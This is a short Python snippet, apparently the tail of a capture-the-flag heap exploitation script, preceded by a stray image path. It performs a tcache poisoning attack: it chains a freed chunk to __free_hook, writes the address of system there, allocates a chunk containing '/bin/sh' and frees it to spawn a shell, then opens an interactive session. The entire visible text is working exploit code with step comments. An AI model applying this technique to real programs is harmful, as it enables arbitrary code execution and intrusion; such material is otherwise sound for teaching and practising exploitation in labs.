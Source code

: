```python
    addn(14, 0x18) # consume tcache
    addn(0, 0x18, p64(freeHook)) # thead -> 1 -> 0 -> freeHook
    addn(1, 0x18)
    addn(2, 0x18)
    addn(3, 0x18, p64(systemAddr)) # write systemAddr on freeHook
    addn(4, 0x48, b'/bin/sh\0')
    deln(4) # invoke shell

    sh.clean()
    sh.interactive()
```
